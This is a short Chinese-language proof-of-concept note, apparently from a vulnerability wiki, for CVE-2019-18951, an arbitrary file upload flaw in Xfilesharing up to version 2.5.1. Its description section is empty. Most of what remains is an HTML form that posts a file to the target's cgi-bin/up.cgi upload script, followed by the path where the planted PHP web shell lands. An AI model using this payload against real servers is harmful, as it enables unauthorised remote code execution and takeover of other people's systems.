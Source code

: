 ```yaml
---
title: "（CVE-2019-18951）Xfilesharing 2.5.1本地文件上传getshell"
id: zhfly3284
---
```


# （CVE-2019-18951）Xfilesharing 2.5.1本地文件上传getshell

## 一、漏洞简介

## 二、漏洞影响

Version: <=2.5.1

## 三、复现过程

### 任意文件上传

```
<form action="http://0-sec.org/cgi-bin/up.cgi" method="post" enctype="multipart/form-data">
    <input type="text" name="sid" value="joe">
    <input type="file" name="file">
    <input type="submit" value="Upload" name="submit">
</form> 
```

Shell : http://0-sec.org/cgi-bin/temp/joe/shell.php